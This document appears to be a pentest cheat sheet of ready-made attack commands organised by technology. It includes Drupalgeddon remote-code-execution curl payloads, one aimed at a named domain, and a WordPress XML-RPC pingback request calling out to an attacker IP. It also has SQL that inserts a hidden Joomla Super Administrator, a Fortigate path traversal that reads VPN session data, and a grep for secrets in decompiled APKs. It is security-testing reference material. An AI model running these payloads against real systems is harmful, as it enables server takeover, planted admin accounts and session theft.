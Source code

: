 # Techno Specific

## CMS

### `Tools`

```text
Nikto
CMSmap
WhatCMS
Wpseku
WPScan
droopescan
joomscan
```

### Wordpress

#### Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

#### XMLrpc

#### List methods

```text
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

if there is pingback, try :

```text
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

### Drupal

```text
drupal , intruder from 0 to 500 on /node/$

/imce

Druppalgeddon 2/3
```

#### POC1 drupal 8:

```text
  curl -k -i 'https://filalapat.fr/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

#### POC2 drupal 8:

```text
curl -k -i 'https://filalapat.fr/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

#### POC3 drupal 7

```text
 curl -k -s 'http://localhost/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

### Joomla

#### Joomla 1.5

```text
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```text
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('Ocd12345678', 'Ocd12345678', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'Ocd12345678', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

## Reactjs

Security Testers: Inject JavaScript and JSON wherever you can and see what happens. Developers: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

## Angularjs

#### check the bypassSecurityTrustX / innerHTML function

```text
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

## ckfinder

```text
ckfinder/ckfinder.html
```

## Git

```text
https://github.com/internetwache/GitTools/tree/master/Dumper
https://github.com/arthaud/git-dumper
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

## Stormshield

* TCP PORT 1300

[https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI\_Serverd\_Commands\_reference\_Guide\_v3/Introduction.htm](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)

Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0

## Fortigate

```text
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

## Dana

* [https://XXXX/dana-na/setup/psalinstall.cgi](https://XXXX/dana-na/setup/psalinstall.cgi)

## GPG decode

```text
gpg --decrypt Test.zip.gpg > test.zip ( popup password )
```

## SSL / TLS

* [testssh.sh](https://github.com/drwetter/testssl.sh)

#### check Heartbleed

```text
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

#### Openssl

```text
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

#### check lucky13

```text
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

## SSH 

#### check if 4096 key

```text
ssh-keygen -l -f key.pub
```

## `Android`

#### `Apktool`

```text
apktool d app_name.apk
```

#### Extract sensitive info

```text
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```



